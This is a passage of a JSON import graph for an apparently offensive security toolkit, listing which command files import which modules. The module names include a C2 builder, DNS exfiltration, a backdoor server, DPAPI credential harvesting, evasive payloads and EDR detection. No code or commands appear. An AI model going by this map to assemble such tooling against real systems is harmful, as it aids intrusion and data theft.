{"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/command_and_control_migrated.py", "target": "modules/c2_builder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/command_and_control_migrated.py", "target": "modules/listener_manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/command_and_control_migrated.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/command_and_control_migrated.py", "target": "modules/apt_playbooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/containers.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/containers.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/containers.py", "target": "modules/lazyk8s.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/containers.py", "target": "modules/lazyk8s.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/containers.py", "target": "modules/lazyk8s.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/containers.py", "target": "modules/lazyk8s.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/containers.py", "target": "modules/lazyk8s.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/containers.py", "target": "modules/lazyk8s.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cred.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cred.py", "target": "modules/categories.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cred.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cred_migrated.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cred_migrated.py", "target": "core/defaults.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cred_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cred_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/crystal_ball.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/crystal_ball.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/crystal_ball.py", "target": "modules/privesc_predictor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/daemon_ctl.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/daemon_ctl.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/daemon_ctl.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/daemon_ctl.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/daemon_ctl.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/daemon_ctl.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/daemon_ctl.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/daemon_ctl.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/daemon_ctl.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/daemon_ctl.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/daemon_ctl.py", "target": "modules/goals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/daemon_ctl.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/daemon_ctl.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/database.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/database.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/database.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/database.py", "target": "modules/finding_lifecycle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/database.py", "target": "modules/finding_lifecycle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/database.py", "target": "modules/finding_lifecycle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/database.py", "target": "modules/finding_lifecycle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/database.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/defaults.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/defaults.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/defaults.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/defaults.py", "target": "core/defaults.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/defaults.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/demo.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/demo.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/diagnostics.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/dns_exfil.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/dns_exfil.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/dns_exfil.py", "target": "modules/dns_beacon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/dns_exfil.py", "target": "modules/backdoor/server.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/dpapi.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/dpapi.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/dpapi.py", "target": "modules/dpapi_harvester.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/edr_detect.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/edr_detect.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/edr_detect.py", "target": "modules/edr_detector.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/edr_detect.py", "target": "modules/edr_detector.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/edr_detect.py", "target": "modules/edr_detector.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/edr_detect.py", "target": "modules/edr_detector.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/encoding.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/encoding.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/enum.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/enum.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/enum.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/estorides.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/estorides.py", "target": "modules/estorides_importer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/estorides.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/estorides.py", "target": "modules/estorides_importer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/evasive_payload.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/evasive_payload.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/evasive_payload.py", "target": "modules/evasive_payloads.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/evasive_payload.py", "target": "modules/evasion_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exfiltration.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exfiltration.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exfiltration.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exfiltration.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exfiltration.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exfiltration.py", "target": "cli/commands/cloud.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exfiltration.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploit.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploit.py", "target": "modules/categories.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploit.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploit_migrated.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploit_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploit_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploit_migrated.py", "target": "core/autonomous.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploit_migrated.py", "target": "modules/adcs_attacks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploit_migrated.py", "target": "modules/exploit_chain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploit_migrated.py", "target": "modules/exploit_recommender.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploit_migrated.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploitgym.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploitgym.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploitgym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploitgym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploitgym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploitgym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploitgym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploitgym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/exploitgym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/wizard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/wizard_scope.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/tutorial.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/contextual_help.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/contextual_help.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/contextual_help.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/command_explorer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/config_status.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/tui_theme.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/doctor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/wizard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/wizard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/wizard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/wizard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/wizard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/wizard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/wizard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/wizard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/help_ui.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/infra.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/infra.py", "target": "cli/confirm.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/infra.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lab.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lab.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lateral.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lateral.py", "target": "modules/categories.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lateral.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lateral_migrated.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lateral_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lateral_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lateral_migrated.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lateral_migrated.py", "target": "modules/domain_dominance.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyloop.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyloop.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyloop.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyloop.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyloop.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyloop.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyloop.py", "target": "modules/lazy_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyloop.py", "target": "modules/lazy_mentions.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyloop.py", "target": "cli/lazy_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyloop.py", "target": "cli/lazy_monitor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_skills.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/selfupdate.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/selfupdate.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_sandbox.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_installer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_skill_mirror.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_skill_mirror.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/custom_tools.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_cli_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_cli_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_cli_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_roles.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/lazyops.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/marketplace.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/marketplace.py", "target": "cli/marketplace_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/marketplace.py", "target": "cli/plugin_tiers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/marketplace.py", "target": "modules/module_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/marketplace.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mcp_bridge.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mcp_bridge.py", "target": "core/autonomous.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mcp_bridge.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mcp_bridge.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mcp_bridge.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mcp_bridge.py", "target": "modules/intelligence_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mcp_bridge.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mcp_bridge.py", "target": "skills/lazyown_facts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mcp_bridge.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mcp_bridge.py", "target": "skills/lazyown_parquet_db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mcp_bridge.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mcp_bridge.py", "target": "modules/playbook_engine.py"}, {"confidence": "EXTRACTED", 